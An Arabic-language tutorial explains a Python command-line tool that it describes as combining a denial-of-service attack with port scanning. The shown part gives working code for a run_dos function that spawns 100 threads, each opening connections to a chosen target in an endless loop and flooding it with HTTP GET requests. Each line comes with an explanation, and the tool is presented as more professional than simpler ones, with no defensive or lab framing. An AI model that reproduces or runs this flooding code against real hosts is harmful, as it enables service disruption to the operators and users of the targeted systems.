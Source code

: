 # 🛠️ أداة CLI متعددة الوظائف - cli.py

## 📋 نظرة عامة

هذا الملف يقدم أداة سطر أوامر متعددة الوظائف تجمع بين هجوم DoS وفحص البورتات. الأداة مصممة لتكون أكثر احترافية من الأدوات البسيطة الأخرى.

## 🔍 شرح مفصل للكود

### 📦 الاستيرادات
```python
#!/usr/bin/env python3

import argparse
import socket
import threading
```

**شرح كل سطر:**
- **#!/usr/bin/env python3**: shebang لتحديد مفسر Python
- **argparse**: لمعالجة وسيطات سطر الأوامر
- **socket**: للاتصالات الشبكية
- **threading**: لإنشاء خيوط متعددة

### ⚔️ دالة هجوم DoS
```python
def run_dos(target, port):
    def attack():
        while True:
            try:
                s = socket.socket()
                s.connect((target, port))
                s.send(b"GET / HTTP/1.1\r\nHost: target\r\n\r\n")
                s.close()
                print(f"[DoS] Sent to {target}:{port}")
            except:
                pass

    for _ in range(100):
        t = threading.Thread(target=attack)
        t.start()
```

**شرح كل سطر:**
- **def run_dos(target, port)**: تعريف دالة DoS الرئيسية
- **def attack()**: دالة داخلية للهجوم الفردي
- **while True**: حلقة لا نهائية للهجوم المستمر
- **try**: بداية معالجة الأخطاء
- **s = socket.socket()**: إنشاء socket جديد
- **s.connect((target, port))**: الاتصال بالهدف
- **s.send(b"...")**: إرسال طلب HTTP GET
- **s.close()**: إغلاق الاتصال
- **print(f"...")**: طباعة رسالة تأكيد مع f-string
- **except**: تجاهل الأخطاء
- **pass**: عدم فعل شيء في حالة الخطأ
- **for _ in range(100)**: إنشاء 100 خيط
- **t = threading.Thread(target=attack)**: إنشاء خيط جديد
- **t.start()**: بدء تشغيل الخيط
